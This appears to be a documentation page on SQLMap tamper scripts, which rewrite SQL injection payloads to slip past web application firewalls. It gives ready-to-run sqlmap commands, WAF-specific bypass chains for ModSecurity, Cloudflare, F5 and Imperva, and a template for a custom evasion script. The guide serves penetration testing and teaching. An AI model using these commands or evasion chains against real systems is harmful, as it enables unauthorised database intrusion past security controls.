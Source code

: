 ```yaml
---
title: Tamper Scripts
description: Learn how to use SQLMap's tamper scripts to evade detection and bypass security controls
---
```


# Tamper Scripts

SQLMap's tamper scripts are powerful tools that modify SQL injection payloads to help evade detection by security mechanisms such as Web Application Firewalls (WAFs), Intrusion Detection Systems (IDS), and Intrusion Prevention Systems (IPS).

## Understanding Tamper Scripts

Tamper scripts work by transforming the SQL injection payload before it's sent to the target. These transformations can include:

- Character encoding
- Case manipulation
- Whitespace modification
- Comment insertion
- Syntax alterations
- String concatenation

## Using Tamper Scripts

### Basic Usage

To use a single tamper script:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=between
```

This applies the `between` tamper script, which replaces greater than and less than operators with equivalent BETWEEN expressions.

### Chaining Multiple Scripts

You can chain multiple tamper scripts, which will be applied in the specified order:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=between,space2comment,randomcase
```

This applies three tamper scripts in sequence:
1. `between`: Replaces operators with BETWEEN expressions
2. `space2comment`: Replaces spaces with comments
3. `randomcase`: Randomizes the case of SQL keywords

## Common Tamper Scripts

### Character Encoding Scripts

- `base64encode`: Encodes all characters in Base64
- `charencode`: URL-encodes all characters in a payload
- `charunicodeencode`: Unicode-encodes characters
- `hex2char`: Replaces hexadecimal encoded characters with their actual character

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=charencode
```

### Whitespace Manipulation Scripts

- `space2comment`: Replaces spaces with comments
- `space2dash`: Replaces spaces with dashes followed by a comment
- `space2hash`: Replaces spaces with hashes followed by a random string and a new line
- `space2plus`: Replaces spaces with plus signs
- `space2randomblank`: Replaces spaces with random whitespace characters

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=space2comment
```

### Case Manipulation Scripts

- `randomcase`: Randomizes the case of SQL keywords
- `lowercase`: Converts all uppercase characters to lowercase
- `uppercase`: Converts all lowercase characters to uppercase

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=randomcase
```

### Syntax Modification Scripts

- `between`: Replaces greater than and less than operators with BETWEEN expressions
- `equaltolike`: Replaces equal operators with LIKE operators
- `greatest`: Replaces greater than operator with GREATEST function
- `ifnull2ifisnull`: Replaces IFNULL with IF(IS NULL)
- `modsecurityversioned`: Adds versioned MySQL comment

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=between,equaltolike
```

## WAF-Specific Tamper Scripts

### ModSecurity

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=modsecurityversioned,space2comment,space2hash,charunicodeencode,securesphere
```

### Cloudflare

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=cloudflare
```

### F5 BIG-IP ASM

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=charunicodeencode,space2randomblank,apostrophemask,randomcase
```

### Imperva SecureSphere

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=securesphere
```

## Creating Custom Tamper Scripts

You can create custom tamper scripts to address specific evasion needs:

1. Create a Python file in the SQLMap `tamper` directory
2. Define a `tamper` function that takes and returns a payload
3. Implement your transformation logic

Example custom tamper script (`mytamper.py`):

```python
#!/usr/bin/env python

def tamper(payload, **kwargs):
    """
    Description of your tamper script
    """
    retVal = payload
    
    if payload:
        # Your transformation logic here
        retVal = payload.replace("SELECT", "SEL/**/ECT")
    
    return retVal
```


## Troubleshooting Tamper Scripts

If you're having issues with tamper scripts:

1. Use verbose mode (`-v`) to see the transformed payloads
2. Try different combinations of tamper scripts
3. Ensure the tamper scripts are compatible with your target DBMS
4. Consider the order of tamper scripts, as it can affect the final payload
5. Some tamper scripts may break the syntax for certain injection types
